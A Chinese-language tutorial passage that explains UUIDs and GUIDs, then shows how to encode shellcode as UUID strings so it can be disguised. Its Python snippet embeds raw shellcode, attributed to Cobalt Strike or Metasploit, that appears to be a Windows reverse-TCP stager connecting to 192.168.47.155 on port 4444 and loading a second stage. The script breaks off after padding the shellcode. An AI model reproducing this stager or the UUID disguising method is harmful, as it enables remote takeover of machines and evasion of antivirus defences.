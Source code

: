 - 数据库中的主键：用 UUID 作为数据库表的主键，确保每个记录都具有唯一的标识符，避免数据冲突。
- 分布式系统中的对象标识符：在分布式系统中，由于系统组件可能位于不同的计算机或网络上，使用 UUID 作为对象的唯一标识符有助于确保唯一性。
- 会话标识符：在网络应用中，使用 UUID 作为会话标识符可以确保每个会话都有唯一的识别码。
- 临时文件名：当需要创建临时文件时，使用 UUID 作为文件名可以确保不会与现有文件冲突。



## 什么是GUID

GUID（Globally Unique Identifier，全局唯一标识符）是一个 128 位长的数字，用于在软件中为对象分配唯一的标识符。GUID 和 UUID（Universally Unique Identifier）基本上是相同的概念，只是术语上的差别。实际上，GUID 是 UUID 的一种实现。

GUID 通常表示为 32 个十六进制数字，分为五组，用连字符分隔，形式如下：

```
550e8400-e29b-41d4-a716-446655440000
```



## shellcode转uuid

这段代码首先将包含 shellcode 的字节数组进行处理，确保长度是 16 的倍数。然后，将 shellcode 分为 16 字节的块，并为每个块创建一个 UUID，将这些 UUID 存储在一个列表中。最后，将这些 UUID 以 C 语言数组的形式输出

```python
import uuid

#使用cs或msf生成的python类型的shellcode
shellcode = b""
shellcode += b"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x64\x8b\x52"
shellcode += b"\x30\x89\xe5\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
shellcode += b"\x0f\xb7\x4a\x26\x31\xff\x31\xc0\xac\x3c\x61\x7c"
shellcode += b"\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49\x75\xef\x52"
shellcode += b"\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
shellcode += b"\x85\xc0\x74\x4c\x01\xd0\x50\x8b\x58\x20\x8b\x48"
shellcode += b"\x18\x01\xd3\x85\xc9\x74\x3c\x31\xff\x49\x8b\x34"
shellcode += b"\x8b\x01\xd6\x31\xc0\xc1\xcf\x0d\xac\x01\xc7\x38"
shellcode += b"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58"
shellcode += b"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
shellcode += b"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b"
shellcode += b"\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
shellcode += b"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68"
shellcode += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8"
shellcode += b"\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
shellcode += b"\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f"
shellcode += b"\x9b\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50"
shellcode += b"\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97"
shellcode += b"\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85"
shellcode += b"\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
shellcode += b"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f"
shellcode += b"\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68"
shellcode += b"\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5"
shellcode += b"\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9"
shellcode += b"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
shellcode += b"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff"
shellcode += b"\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff"
shellcode += b"\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
shellcode += b"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2"
shellcode += b"\x56\x6a\x00\x53\xff\xd5"

# 用于存放shellcode转换成的uuid
uuid_list = []

# 确保 shellcode 长度是 16 的倍数，用 NOPs (\x90) 进行填充
if len(shellcode) % 16 != 0:
    shellcode += b'\x90' * (16 - len(shellcode) % 16)
```